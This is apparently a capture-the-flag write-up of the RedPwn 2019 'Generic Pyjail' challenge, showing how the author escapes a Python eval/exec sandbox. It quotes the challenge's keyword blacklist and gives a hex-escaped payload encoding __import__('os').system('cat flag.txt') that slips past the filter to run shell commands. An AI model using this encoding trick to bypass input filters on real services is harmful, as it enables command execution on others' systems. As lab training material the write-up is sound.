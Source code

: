 ```yaml
---
layout: posts
title:  Red Pwn 2019 - Generic Pyjail (Misc)
date:   2019-08-12
categories: [CTFs, redpwn19]
---
```


[~$ cd ..](/ctfs/redpwn19/2019/08/12/index.html)

>genericpyjail
>
>Written by: dns
>
>When has a blacklist of insecure keywords EVER failed?
>
>nc chall2.2019.redpwn.net 6006

I really love python and Pyjail!

We were given the list of blacklisted words, but I actually didn't even notice it! The first thing I did was :

```
wow! there's a file called flag.txt right here!
>>> globals()
Traceback (most recent call last):
  File "jail1.py", line 52, in <module>
    exec(data)
  File "<string>", line 1
    {'no': 'file', '__builtins__': <module '__builtin__' (built-in)>, '__file__': 'jail1.py', '__package__': None, 'banned': ['import', 'ast', 'eval', '=', 'pickle', 'os', 'subprocess', 'i love blacklisting words!', 'input', 'sys', 'windows users', 'print', 'execfile', 'hungrybox', 'builtins', 'open', 'most of these are in here just to confuse you', '_', 'dict', '[', '>', '<', ':', ';', ']', 'exec', 'hah almost forgot that one', 'for', '@dir', 'yah have fun', 'file'], '__name__': '__main__', 'data': {...}, '__doc__': None, 'print_function': _Feature((2, 6, 0, 'alpha', 2), (3, 0, 0, 'alpha', 0), 65536)}
                                   ^
SyntaxError: invalid syntax
```

and I then knew which words were prohibited!

Trying some basic inputs gave some valuable hints about what was going on:

```
wow! there's a file called flag.txt right here!
>>> test
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'test' is not defined
```

We then had to feed `eval` with non-blacklisted words, such as escaped sequences (`import` was normally prohibited):

```
wow! there's a file called flag.txt right here!
>>> '\x69\x6d\x70\x6f\x72\x74'
Traceback (most recent call last):
  File "jail1.py", line 52, in <module>
    exec(data)
  File "<string>", line 1
    import
         ^
SyntaxError: invalid syntax
```

The attack was then trivial. We only had to encode `__import__('os').system('cat flag.txt')` and get our reward:

```
wow! there's a file called flag.txt right here!
>>> '\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29'
flag{bl4ckl1sts_w0rk_gre3344T!}
```

FLAG: **flag{bl4ckl1sts_w0rk_gre3344T!}**

EOF
